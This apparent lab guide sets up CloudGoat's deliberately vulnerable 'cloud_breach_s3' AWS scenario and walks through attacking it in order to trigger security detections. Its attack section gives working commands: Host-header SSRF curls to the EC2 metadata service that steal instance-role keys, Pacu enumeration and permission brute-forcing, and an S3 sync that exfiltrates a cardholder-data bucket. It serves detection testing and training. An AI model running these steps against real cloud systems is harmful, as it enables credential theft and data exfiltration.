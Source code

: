 Objective
~~~~~~~~~

Quick attack to get account in critical quadrant (~20 minutes). -
Detections include - AWS Organization Discovery - AWS User Permissions
Enumeration - AWS Suspicious Credential Usage - AWS Suspicious EC2
Enumeration - AWS S3 Enumeration

.. figure:: ./images/critical.png
   :alt: critical

   critical

Guide Notes
~~~~~~~~~~~

-  There are other ways to install the tools and will depend on distro.
-  Setting up the AWS profile may very based on an organizations
   requirements. For instance SSO would vary between org.

Requirments
~~~~~~~~~~~

-  Linux or MacOS. Windows is not officially supported.

   -  If you are using Windows we recommand install
      `WSL2 <https://docs.microsoft.com/en-us/windows/wsl/install>`__
   -  If you are using a Linux virtual machine AWS EC2 is not supported
   -  In this guide a new Ubuntu VM was created in VM Fusion. This guide
      goes through setting up the Ubuntu VM.

-  Python3.6+ is required.
-  Terraform >= 0.14 installed and in your $PATH.
-  The AWS CLI installed and in your $PATH, and an AWS account with
   sufficient privileges to create and destroy resources.

   -  AWS `Named profile
      configured <https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html>`__

Install system prerequisites (may already be installed)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

.. code:: bash

   sudo apt-get update && sudo apt install -y ssh vim net-tools curl git python3-pip 

Install tools for attack (may already be installed)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Install awscli

   -  Download the package

      .. code:: bash

         curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"

   -  Unzip the installer

      .. code:: bash

         unzip awscliv2.zip

   -  Run the install program

      .. code:: bash

         sudo ./aws/install

-  Install terraform

   -  Terraform Prerequisites

      .. code:: bash

         sudo apt-get update && sudo apt-get install -y gnupg software-properties-common

   -  Add the HashiCorp GPG key

      .. code:: bash

         curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -

   -  Add the official HashiCorp Linux repository

      .. code:: bash

         sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"

   -  Update to add the repository, and install the Terraform CLI

      .. code:: bash

         sudo apt-get update && sudo apt-get install terraform

Install Cloudgoat
~~~~~~~~~~~~~~~~~

-  Use git to clone the Cloudgoat repo to home directory and change to
   the new directory
   ``bash      git clone https://github.com/RhinoSecurityLabs/cloudgoat.git ~/cloudgoat && cd ~/cloudgoat``
-  Install the Cloudgoat dependencies
   ``bash       pip3 install -r ./core/python/requirements.txt && chmod u+x cloudgoat.py``

Install Pacu
~~~~~~~~~~~~

-  Use git to clone the Pacu repo to home directory and change to the
   new directory
   ``bash      git clone https://github.com/RhinoSecurityLabs/pacu.git ~/pacu && cd ~/pacu``
-  Install the Pacu dependencies
   ``bash       pip3 install -r requirements.txt``

Setup AWS Profile
~~~~~~~~~~~~~~~~~

-  Setup AWS profile for Cloudgoat. This account will need admin access
   in AWS. This will create or add a new profile in ``~/.aws/config``
   and ``~/.aws/credentials``

-  You will be prompted for
   ``Access Key ID, AWS Secret Access Key, Default region name, Default output format``

   .. code:: bash

      aws configure --profile cloudgoat

-  Make the new aws profile your default

   .. code:: bash

      export AWS_PROFILE=cloudgoat

-  Verify credentials are working

   .. code:: bash

       aws sts get-caller-identity

   |awsprofile| ### Setup Cloudgoat

   -  Run Cloudgoat config profile from home directory and set default
      profile. You will be prompted to enter an AWS profile from the
      previous step which we called ``cloudgoat``. This is how cloudgoat
      will access AWS. ``bash  ~/cloudgoat/cloudgoat.py config profile``
   -  Run Cloudgoat config whitlelist
      ``bash  ~/cloudgoat/cloudgoat.py config whitelist --auto``

Setup vulnerable infrastructure with Cloudgoat
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Now that the tools are seutp we will use Cloudgoat to setup vulnerable
infastuecure in AWS. This will create a scenario with a misconfigured
reverse-proxy server in EC2.

-  Run the attack scenario
   ``bash      ~/cloudgoat/cloudgoat.py create cloud_breach_s3``

.. figure:: ./images/cloudgoatout.png
   :alt: Cloudgoat

   Cloudgoat

-  **Copy the response to a text file** you will need the EC2 IP

Start attack
~~~~~~~~~~~~

At this point we have created vulnerable infrastucute in AWS using
Cloudgoat. Starting as an anonymous outsider with no access or
privileges, exploit a misconfigured reverse-proxy server to query the
EC2 metadata service and acquire instance profile keys. Then, use those
keys to discover, access, and exfiltrate sensitive data from an S3
bucket.

-  Replace ``<ec2-ip-address>`` with the IP address from the previoues
   step to get a role name. **Copy the response to a text file** as you
   will need the role name for the next attack

.. code:: bash

   curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'

.. figure:: ./images/role.png
   :alt: role

   role

-  Replace ``<ec2-ip-address>`` and ``<ec2-role-name>`` from the
   previous steps to get the keys. **Copy response to text file** as you
   will need these stolen crendentials

.. code:: bash

   curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'

.. figure:: ./images/ssrf2.png
   :alt: ssrf2

   ssrf2

-  Next we will use pacu to do discovery with the stolen crendentials

   -  Start pacu from the shell session by running ``~/pacu/cli.py``
   -  Create new session in pacu named ``cloud_breach_s3``
   -  Set the keys using ``set_keys`` from the pacu session using the
      stolen credentials from the previous step

.. figure:: ./images/pacukeys.png
   :alt: pacukeys

   pacukeys

-  Use pacu to start disocvery using the following modules

   -  ``run aws__enum_account`` Get account details: permission denied
   -  ``run iam__enum_permissions`` Get permissions for IAM entity:
      permission denied
   -  ``run iam__enum_users_roles_policies_groups`` Get group polices
      for IAM entity: permission denied
   -  ``run iam__bruteforce_permissions`` Brute force for access to
      services: **BINGO!**

.. figure:: ./images/output.png
   :alt: output

   output

-  The stolen credentials have full access to S3

   -  Exit pacu by typing ``exit`` and return to attack

-  Create a new aws profile with stolen credentials

.. code:: bash

   aws configure --profile cloud_breach_s3

-  Set the ``AWS Access Key ID`` and ``AWS Secret Access Key`` using the
   stolen crendentials

-  Set the “Default region” name and the “Default output” format to
   ``json``

-  Manually add the ``aws_session_token`` to the aws credentails file
   (use i for insert mode then esc :wq to save and close)

   .. code:: bash

      vi  ~/.aws/credentials

   .. figure:: ./images/sestoken.png
      :alt: sestoken

      sestoken

-  List and search buckets the stolen credentails have access to
   ``bash  aws s3 ls --profile cloud_breach_s3`` |list|

-  Download data from the ``cardholder-data`` bucket to local system
   home directory. Replace ``<bucket-name>`` with the bucket to download
   data
   ``bash  aws s3 sync s3://<bucket-name> ~/cardholder-data --profile cloud_breach_s3``

-  Change to home directory and perfom list to verify data was
   downloaded ``bash  cd && ls`` |download|

-  Remove vulnerable infrasturecure
   ``bash  ~/cloudgoat/cloudgoat.py destroy cloud_breach_s3``

-  Attack had been completed. Review the detections in dfaws dashboard.

.. |awsprofile| image:: ./images/awsprofile.png
.. |list| image:: ./images/list.png
.. |download| image:: ./images/download.png
